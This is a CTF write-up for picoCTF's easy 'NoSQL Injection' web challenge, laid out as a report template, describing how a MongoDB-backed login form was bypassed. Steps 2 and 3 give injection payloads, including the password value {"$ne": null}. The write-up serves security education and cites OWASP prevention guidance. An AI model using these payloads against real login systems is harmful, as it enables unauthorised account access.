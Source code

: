 # CTF Challenge Report Template

## Challenge Information

| Field              | Value                                               |
| ------------------ | --------------------------------------------------- |
| **Platform**       | picoCTF                                             |
| **Challenge Name** | NoSQL Injection                                     |
| **Category**       | Web Exploitation / Injection                        |
| **Difficulty**     | Easy                                                |
| **Points**         | [none]                                              |
| **Author**         | picoCTF Team                                        |
| **Date Completed** | 2025-09-01                                          |

## Objective

A login form was discovered on a web application hosted as part of the challenge. The app uses a NoSQL database (likely MongoDB) to store and query credentials. The goal was to bypass login using a NoSQL injection technique and retrieve the flag.

## Initial Reconnaissance

### Target Information

- **URL/IP**: picoCTF challenge web interface
- **Ports**: HTTP/HTTPS
- **Services**: Web application with login form

### Tools Used

- Firefox + DevTools  
- Burp Suite (optional)  
- Basic browser and form inspection  
- Manual payload crafting

### Commands/Steps

```bash
# Access challenge web interface
# Inspect login form elements
```

## Methodology

### Step 1: Form Analysis and Reconnaissance

Accessed the challenge web interface from the picoCTF platform and observed a login page with `username` and `password` fields. Attempted normal credentials but failed, then guessed that the backend might be using **MongoDB** due to the challenge category.

**Command/Code:**
```bash
# Browser inspection of login form
# Attempted normal credentials: admin/admin, admin/password, etc.
```

**Output:**
```
Login failed with normal credentials
Form accepts various input formats
```

### Step 2: NoSQL Injection Payload Testing

Tried known **NoSQL injection payloads** in the input fields to bypass authentication.

**Command/Code:**
```javascript
// Payload 1: SQL-like injection
Username: admin' || 1==1 //

// Payload 2: NoSQL specific
Username: admin
Password: {"$ne": null}
```

**Output:**
```
Payload 1: Failed
Payload 2: Success - Authentication bypassed
```

### Step 3: Authentication Bypass

Successfully bypassed authentication using NoSQL injection technique.

**Command/Code:**
```plaintext
Username: admin
Password: {"$ne": null}
```

**Output:**
```
Login successful!
Flag: picoCTF{***REDACTED***}
```

### Final Answer

```
picoCTF{***REDACTED***}
```

### Complete Walkthrough

Successfully bypassed the login form using NoSQL injection by providing `{"$ne": null}` as the password. This payload works because `"$ne"` is the MongoDB operator for "not equal", and by providing `{"$ne": null}`, we trick the query to match any non-null password, effectively bypassing authentication.

## Key Learnings

- NoSQL injections don't require quotes or SQL syntax — they often use JSON-like structure
- Always sanitize user input, even in NoSQL databases
- MongoDB's query structure can be exploited using logical operators like `$ne`, `$gt`, `$regex`, etc.
- Authentication bypass is one of the easiest ways to demonstrate impactful vulnerabilities in CTFs

## Tools and Resources

### Tools Used

- **Firefox + DevTools**: For web application inspection
- **Burp Suite**: For HTTP request manipulation (optional)
- **Browser**: For form interaction and payload testing

### References

- [OWASP NoSQL Injection Prevention](https://cheatsheetseries.owasp.org/cheatsheets/NoSQL_Injection_Prevention_Cheat_Sheet.html)
- [MongoDB Security Best Practices](https://docs.mongodb.com/manual/security/)
- [picoCTF NoSQL Injection Challenge](https://play.picoctf.org/practice/challenge/nosql-injection)
- [NoSQL Injection Techniques](https://owasp.org/www-community/attacks/NoSQL_Injection)

## Tags

`#picoctf` `#web-exploitation` `#easy` `#nosql-injection` `#mongodb`
